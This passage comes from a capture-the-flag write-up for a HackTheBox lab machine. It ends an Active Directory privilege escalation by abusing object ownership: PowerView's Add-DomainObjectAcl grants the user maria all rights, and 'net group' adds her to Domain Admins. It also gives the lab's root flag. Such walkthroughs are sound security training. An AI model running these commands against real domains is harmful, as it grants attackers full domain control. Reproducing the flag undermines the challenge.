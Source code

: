 Now the owner of the "Domain Admins" object is maria but we still can't add our users to "Domain Admins" group. We also need to give permission to that.

We can check it using bloodhound as well and as you can see that we now own the "Domain Admins".
![](https://i.imgur.com/tYqrH2C.png)

Let's give all rights to maria
```
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All -Verbose
net group "Domain Admins" maria /add
```

![](https://i.imgur.com/jOuYED0.png)


Relogin to winrm and we can now read the root flag.

![](https://i.imgur.com/ADUCCUe.png)

`HTB{br0k3n_4c3_4_d00r_t0_k1ngd0m}`
